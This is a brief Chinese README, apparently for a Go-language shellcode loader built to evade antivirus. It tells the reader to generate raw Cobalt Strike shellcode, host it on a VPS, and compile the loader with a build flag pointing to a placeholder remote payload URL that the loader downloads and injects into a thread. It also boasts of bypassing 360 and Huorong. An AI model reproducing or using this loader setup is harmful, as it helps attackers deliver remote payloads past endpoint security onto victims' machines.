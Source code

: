# go加载器bypass
最近刚开始学习go语言写加载器，参考了几篇文章，利用线程注入和-race、载荷分离远程下载shellcode进行编译

1、首先用cs生成raw的shellcode上传到自己的vps服务器上

2、编译：go build -ldflags "-s -w -X main.url=http://xx.xx.xx.xx/payload.bin" -o 1.exe -race shellcode.go

3、VT查杀14，但是截止到目前为止，360与火绒都能bypass

![image](https://user-images.githubusercontent.com/84514302/129006676-eebc4fbc-2fda-45be-b0c7-c75b28177be8.png)
![image](https://user-images.githubusercontent.com/84514302/129006765-79440268-bd9e-4760-b029-fec262f3b260.png)

本人刚开始学习免杀，还很菜，此源码参考了https://github.com/fcre1938/goShellCodeByPassVT/blob/main/main.go

欢迎大佬提出建议
